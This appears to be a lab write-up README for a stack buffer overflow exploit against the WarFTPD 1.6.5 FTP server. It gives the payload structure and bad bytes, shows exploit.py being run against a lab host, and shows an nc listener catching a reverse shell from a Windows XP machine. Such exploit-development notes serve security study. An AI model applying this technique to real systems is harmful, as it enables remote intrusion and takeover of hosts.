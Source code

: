 # WarFTPD 1.6.5
Reference: https://www.exploit-db.com/exploits/3570
  
WarFTP is prone to a stack-based buffer-overflow vulnerability because it fails to properly check boundaries on user-supplied data before copying it to an insufficiently sized buffer.
  
## Notes

Payload structure: [OFFSET][JMP ESP][NOPSLED][SHELLCODE]  
Bad bytes: 00, 0a, 0d and 40  
*Note: To discover the 0x40 (@) character I had to open the exe in Ghidra and search for strings to determine which byte wasn't allowed*

### Exploit
See exploit.py.  
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ./exploit.py                                                                                                         
[+] Opening connection to 192.168.34.148 on port 21: Done
[*] 220- Jgaa's Fan Club FTP Service WAR-FTPD 1.65 Ready
    220 Please enter your user name.
[*] 331 User name okay, Need password.
[*] Closed connection to 192.168.34.148 port 21
```
Recieve shell.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999                                                                                                                                                           
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.148] 1101
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Program Files\War-ftpd>hostname
hostname
user-d0da1cb800
```
